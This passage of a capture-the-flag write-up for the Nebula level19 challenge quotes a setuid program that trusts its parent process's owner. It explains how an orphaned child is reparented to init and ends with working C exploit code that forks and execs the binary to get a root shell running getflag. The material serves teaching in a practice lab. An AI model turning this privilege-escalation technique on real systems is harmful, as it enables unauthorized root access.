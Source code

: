   snprintf(buf, sizeof(buf)-1, "/proc/%d", getppid());

  /* stat() it */

  if(stat(buf, &statbuf) == -1) {
    printf("Unable to check parent process\n");
    exit(EXIT_FAILURE);
  }

  /* check the owner id */

  if(statbuf.st_uid == 0) {
    /* If root started us, it is ok to start the shell */

    execve("/bin/sh", argv, envp);
    err(1, "Unable to execve");
  }

  printf("You are unauthorized to run this program\n");
}
{% endhighlight %}

So we can get the shell we want if we can run this as root. How can we do that?
This exploits involves a knowledge of Linux forks. Basically if a process
forks and the parent dies, the child will automatically be run under `init`.
This is called [Fork off and die](http://wiki.linuxquestions.org/wiki/Fork_off_and_die). So who does `init` run as?

{% highlight console %}
level19@nebula:/tmp/flag19$ ps aux | grep init
root         1  0.0  0.6   3196  1512 ?        Ss   00:32   0:00 /sbin/init
{% endhighlight %}

In order to make use of this we need to run `flag18` as a forked process and
then kill the parent. The arguments to `flag18` are passed onto the shell
it executes, and thus we can make use of this. I'll write some C code
to fork the `flag18` process to which we will pass the `getflag`. It should
work.

{% highlight C %}
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
    int childPID = fork();
    if(childPID >= 0) { // forked
        if(childPID == 0) { // child
            sleep(1);
            setresuid(geteuid(),geteuid(),geteuid());
            char *args[] = {"/bin/sh", "-c", "/bin/getflag", NULL};
            execve("/home/flag19/flag19", args, envp);
        }
    }
    return 0;
}
{% endhighlight %}
